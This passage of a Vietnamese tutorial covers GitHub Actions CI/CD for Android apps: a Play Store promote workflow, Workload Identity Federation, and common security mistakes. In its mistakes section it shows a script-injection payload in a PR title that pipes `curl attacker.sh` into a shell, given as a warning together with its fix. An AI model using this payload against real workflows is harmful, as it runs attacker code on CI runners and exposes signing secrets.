        if: always()
        run: rm -f app/release.jks
```

**Kết quả:** lần chạy "Release" ở trạng thái "Waiting" kèm nút "Review deployments"; duyệt xong, log step (6) báo upload thành công. **Play Console → Testing → Internal testing** có release mới với `versionCode` dạng 10xx, release notes từ `default.txt`; artifact `release-v1.4.0` chứa AAB và `mapping.txt`.

## Deep Dive: bỏ khoá JSON bằng Workload Identity Federation

Khoá JSON của service account sống lâu: lộ một lần là người khác upload được lên Play tới khi bạn thu hồi. **Workload Identity Federation (WIF)** của Google Cloud cho runner đổi **OIDC token** GitHub cấp cho từng job lấy credential ngắn hạn, không lưu khoá:

1. Tạo Workload Identity Pool và provider OIDC cho GitHub, giới hạn theo repo; cho principal của pool quyền **mạo danh** (impersonate) service account đã mời trong Play Console.
2. Workflow khai báo `permissions: id-token: write`, gọi `google-github-actions/auth@v3` với `workload_identity_provider` và `service_account` để đặt Application Default Credentials (ADC).
3. GPP dùng ADC bằng `useApplicationDefaultCredentials = true`.

> [!CAUTION]
> Tài liệu Play Developer API không nhắc tới WIF; cách trên ghép từ tài liệu WIF của Google Cloud và tuỳ chọn ADC của GPP, chưa có hướng dẫn chính thức: thử trên app nội bộ trước.

## Ví dụ thực tế

1. **Promote từ internal lên production với staged rollout** (code dưới đây).
2. **Tăng hoặc dừng rollout:** cập nhật tại chỗ release đang chạy trên production: `promoteReleaseArtifact --update production --user-fraction 0.5`, hoặc `--release-status halted`.
3. **Nhiều app dùng chung pipeline:** gom step chung thành **composite action** (`action.yml`, `runs.using: composite`) hoặc **reusable workflow** (`on: workflow_call`, gọi bằng `uses: org/ci-templates/.github/workflows/android-check.yml@v1`), đổi JDK một chỗ cho mọi repo.

### Promote internal lên production 10% bằng một nút bấm

**Bài toán:** QA đã duyệt bản trên internal; cần đưa đúng bản đó lên production cho 10% người dùng, có người thứ hai duyệt, không thao tác trên Play Console.

**Luồng chạy:**

1. Bấm "Run workflow", ở "Use workflow from" chọn **tag** của bản cần promote (environment chỉ nhận tag `v*`; tag phải chứa `promote.yml`), nhập `user_fraction` (mặc định `0.1`).
2. Job chờ duyệt environment `production`, chung `concurrency` group với Release.
3. GPP promote release mới nhất của internal sang production ở trạng thái `inProgress` với tỉ lệ đã nhập.



**Code:**

```yaml
# .github/workflows/promote.yml
name: Promote to production

on:
  workflow_dispatch:                              # (1)
    inputs:
      user_fraction:
        description: 'Tỉ lệ người dùng nhận bản mới, nhỏ hơn 1'
        required: true
        default: '0.1'

permissions:
  contents: read

concurrency:
  group: release                                  # (2)
  cancel-in-progress: false

jobs:
  promote:
    runs-on: ubuntu-latest
    environment: production                       # (2)
    steps:
      - uses: actions/checkout@v7
      - uses: actions/setup-java@v6
        with:
          distribution: temurin
          java-version: '17'
      - uses: gradle/actions/setup-gradle@v6
      - name: Promote internal to production
        env:
          ANDROID_PUBLISHER_CREDENTIALS: ${{ secrets.PLAY_SERVICE_ACCOUNT_JSON }}
          USER_FRACTION: ${{ inputs.user_fraction }}
        run: |                                    # (3) promote đúng AAB đã có, không build lại
          ./gradlew promoteReleaseArtifact \
            --from-track internal --promote-track production \
            --release-status inProgress --user-fraction "$USER_FRACTION"
```

**Kết quả:** **Play Console → Production** có release mới staged rollout 10%, cùng `versionCode` với bản trên internal, chờ review của Google. Vitals và Crashlytics ổn thì tăng tỉ lệ như bài toán 2; tới 100% dùng `--release-status completed` (GPP từ chối `--user-fraction 1.0`).

> [!WARNING]
> Mặc định promote **thay** release đang có trên track đích và halt staged rollout đang chạy ở đó. Muốn giữ rollout cũ song song thì thêm `--retain-existing-rollout`.

## Khi nào nên và không nên dùng

**Nên dùng** khi code đã ở GitHub (trigger, check, ruleset, secret, environment cùng một chỗ, không vận hành máy build), build chạy được trên runner Linux chuẩn, team muốn pipeline là file trong repo.

**Cân nhắc công cụ khác** khi code không được rời mạng nội bộ hoặc đã có Jenkins ([11.1 Jenkins](jenkins.md)); khi team mobile cần macOS cho iOS và step dựng sẵn ([11.2 Bitrise](bitrise.md)); dự án còn `.travis.yml` thì xem cách chuyển ở [11.3 Travis CI](travis_ci.md).

**Không nên** đưa lên CI việc chưa chạy ổn bằng tay (UI test flaky, script phát hành chưa từng thành công): CI đỏ ngẫu nhiên làm team quen bỏ qua dấu đỏ.

## Sai lầm thường gặp

### 1. Chèn secret hoặc dữ liệu từ PR thẳng vào lệnh shell

```yaml
- run: echo ${{ secrets.RELEASE_KEYSTORE_BASE64 }} | base64 --decode > app/release.jks
- run: echo "Building ${{ github.event.pull_request.title }}"
```

**Lỗi lộ ra thế nào:** expression được thay vào **trước** khi shell chạy. Dòng 1 đặt secret thẳng vào script; dòng 2 cho phép **script injection**: PR có tiêu đề `"; curl attacker.sh | sh; "` chạy lệnh tuỳ ý trên runner.

**Cách sửa:** đưa giá trị vào `env:`, dùng `"$TEN_BIEN"` trong script.

### 2. Dùng pull_request_target để PR từ fork có secret

**Lỗi lộ ra thế nào:** `pull_request_target` chạy trong ngữ cảnh nhánh đích, **có secret**; workflow checkout code của PR rồi chạy `./gradlew` thì người lạ chỉ cần sửa `build.gradle.kts` là đọc được khoá ký. `actions/checkout` v7 chặn mặc định trường hợp này.

**Cách sửa:** PR check dùng `pull_request`, không cần secret; việc cần secret chạy sau merge hoặc trên tag.

### 3. versionCode không tăng hoặc trùng

**Lỗi lộ ra thế nào:** step upload đỏ vì Play báo `versionCode` đã dùng, do tăng tay hoặc re-run lần phát hành đã upload xong.

**Cách sửa:** `versionCode` từ số build kèm offset (mục "versionCode trên CI"); đã upload thì push tag mới thay vì re-run.

### 4. Bật required check nhưng job bị bỏ qua vì path filter

```yaml
on:
  pull_request:
    paths: ['app/**']
```

**Lỗi lộ ra thế nào:** PR chỉ sửa `README.md` không kích hoạt workflow, check bắt buộc không được báo, PR kẹt ở trạng thái chờ.

**Cách sửa:** không lọc theo path ở workflow chứa required check; một job nhỏ xác định file thay đổi, job nặng dùng `if:` theo kết quả đó (job skipped được tính là đạt).

## Trade-offs

- **Chi phí phút chạy:** repo public dùng runner chuẩn miễn phí; repo private có số phút miễn phí theo gói, vượt thì tính tiền, runner macOS và runner lớn đắt hơn (xem trang billing). Cache Gradle, `cancel-in-progress`, job emulator có điều kiện tiết kiệm nhiều nhất.
- **Self-hosted runner** (`runs-on: [self-hosted, linux]`): máy mạnh hơn, cache sẵn trên đĩa, vào được mạng nội bộ; đổi lại phải tự vá hệ điều hành, dọn workspace, và **không** dùng cho repo public vì PR từ fork chạy code trên máy đó.
- **Phụ thuộc nền tảng:** giữ logic trong task Gradle (lint, test, ký, GPP), YAML chỉ là lớp gọi mỏng; chuyển tool chỉ viết lại lớp đó. Action bên thứ ba còn có thể đổi điều khoản (cache `gradle/actions` v6).

## Lịch sử phát triển

- **2018 – 2019:** GitHub công bố Actions (10/2018, cú pháp HCL), chuyển sang YAML kèm CI/CD (08/2019), GA 13/11/2019.
- **2020:** Gradle phát hành action kiểm tra wrapper; cuối năm GitHub thêm environments với required reviewers.
- **2023:** ruleset ra đời bên cạnh branch protection; `upload-artifact` v4 đổi backend artifact.
- **2024:** `gradle/actions` gom `setup-gradle` và wrapper validation; từ v4 `setup-gradle` kiểm tra wrapper mặc định.
- **2026:** `gradle/actions` v6 (03) tách cache thành thành phần độc quyền; `actions/checkout` v7 (06) chặn checkout code fork trong `pull_request_target`, `workflow_run`.
- **Phía Google Play:** Play App Signing ra mắt 2017, AAB 2018; từ 08/2021 app mới bắt buộc AAB; từ 11/2023 tài khoản cá nhân mới phải qua closed test; Gradle Play Publisher 4.0 (01/2026) chuyển sang AGP 9.

## Kết nối hệ thống

- **Tiên quyết:**
  - [11.0 Tổng quan Session 11](index.md): CI, Continuous Delivery/Deployment, stage của pipeline Android.
  - [Build Types](../session_04/android_manifest/package_build_gradle/build_types.md): variant, R8, `mapping.txt`.
  - [Android App Bundle (AAB)](../session_01/output_packages/aab_files.md): upload key, app signing key, Play App Signing.
  - [10.3 Lint](../coding_analyst_and_testing/lint.md), [10.2 Unit Testing](../coding_analyst_and_testing/unit_testing.md): task PR check chạy.
- **Liên quan:**
  - [Flavor](../session_04/android_manifest/package_build_gradle/flavor.md): matrix theo flavor; [Gói ứng dụng APK](../session_01/output_packages/apk_files.md): keystore; [Plugin](../session_04/android_manifest/package_build_gradle/plugin.md): task do AGP sinh ra.
  - [10.4 Fit / Bug Optimization](../coding_analyst_and_testing/fit_bug_optimization.md): Android vitals, Crashlytics, căn cứ tăng rollout.
  - [10.0 Tổng quan Session 10](../coding_analyst_and_testing/index.md): CI là cổng chất lượng trước merge.
- **Học tiếp:** [11.1 Jenkins](jenkins.md), [11.2 Bitrise](bitrise.md), [11.3 Travis CI](travis_ci.md): hai pipeline chuẩn trên tool khác.

## Tham khảo

- [Workflow syntax for GitHub Actions](https://docs.github.com/en/actions/reference/workflows-and-actions/workflow-syntax)
- [Variables reference](https://docs.github.com/en/actions/reference/workflows-and-actions/variables)
- [Deployments and environments](https://docs.github.com/en/actions/reference/workflows-and-actions/deployments-and-environments)
- [Using secrets in GitHub Actions](https://docs.github.com/en/actions/how-tos/write-workflows/choose-what-workflows-do/use-secrets)
- [Security hardening for GitHub Actions](https://docs.github.com/en/actions/reference/security/secure-use)
- [About rulesets](https://docs.github.com/en/repositories/configuring-branches-and-merges-in-your-repository/managing-rulesets/about-rulesets)
- [actions/checkout](https://github.com/actions/checkout), [actions/setup-java](https://github.com/actions/setup-java), [actions/upload-artifact](https://github.com/actions/upload-artifact)
- [gradle/actions - setup-gradle docs](https://github.com/gradle/actions/blob/main/docs/setup-gradle.md) và [GitHub Actions for Gradle v6](https://blog.gradle.org/github-actions-for-gradle-v6)
- [ReactiveCircus/android-emulator-runner](https://github.com/ReactiveCircus/android-emulator-runner)
- [Google Play Developer API - Getting started](https://developers.google.com/android-publisher/getting_started)
- [Set up an open, closed, or internal test](https://support.google.com/googleplay/android-developer/answer/9845334)
- [App testing requirements for new personal developer accounts](https://support.google.com/googleplay/android-developer/answer/14151465)
- [Release app updates with staged rollouts](https://support.google.com/googleplay/android-developer/answer/6346149)
- [Version your app](https://developer.android.com/studio/publish/versioning)
- [Gradle Play Publisher](https://github.com/Triple-T/gradle-play-publisher)
- [fastlane supply](https://docs.fastlane.tools/actions/supply/)
- [Workload Identity Federation with deployment pipelines](https://docs.cloud.google.com/iam/docs/workload-identity-federation-with-deployment-pipelines) và [google-github-actions/auth](https://github.com/google-github-actions/auth)
